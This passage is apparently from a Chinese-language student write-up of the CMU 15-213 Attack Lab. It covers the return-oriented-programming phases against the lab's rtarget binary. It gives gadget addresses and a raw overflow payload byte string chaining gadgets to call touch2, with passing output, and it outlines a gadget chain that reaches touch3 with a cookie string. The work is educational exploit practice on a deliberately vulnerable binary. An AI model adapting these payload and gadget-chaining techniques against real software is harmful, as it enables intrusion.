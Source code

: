 其中 `0x4019fe` 为 `58 c3`，对应汇编代码为 `pop %rax; ret`；`0x47db4e3a` 为cookie；`0x4019ed` 为 `movq %rax, %rdi; ret`；`0x401837` 为 `touch2` 函数地址。

使用命令 `./hex2raw < phase4.txt > 2016011446.rtarget.l1; ./rtarget -q -i 2016011446.rtarget.l1` 得到如下结果：

```bash
n+e:~/wlxt/wjy/汇编语言程序设计(0)(2017-2018夏季学期)/attack/target2 ./hex2raw < phase4.txt > 2016011446.rtarget.l1; ./rtarget -q -i 2016011446.rtarget.l1
Cookie: 0x47db4e3a
Touch2!: You called touch2(0x47db4e3a)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	liu
	course	15213-f15
	lab	attacklab
	result	2:PASS:0xffffffff:rtarget:2:41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 FE 19 40 00 00 00 00 00 3A 4E DB 47 00 00 00 00 ED 19 40 00 00 00 00 00 37 18 40 00 00 00 00 00 
```

![](phase4.png)

## Phase5

大致思路为：获取 `%rsp` 指向的地址，存到某个寄存器中，添加偏移量 `offset` 使其指向cookie的位置，然后调用 touch3。同Phase3，cookie 需要放到 stack 最后。

写成汇编代码大致为：

```assembly
movq %rsp, %rdi
movq offset, %rsi
leaq (%rdi, %rsi, 1), %rax
movq %rax, %rdi
callq touch3
"cookie"
```

翻译成garget如下：

```assembly
movq %rsp, %rax
movq %rax, %rdi
pop %rax
offset 0x48
movl %eax, %ecx
movl %ecx, %edx
movl %edx, %esi
leaq (%rdi, %rsi, 1), %rax
movq %rax, %rdi
0x401948 <touch3>
"47db4e3a"
```
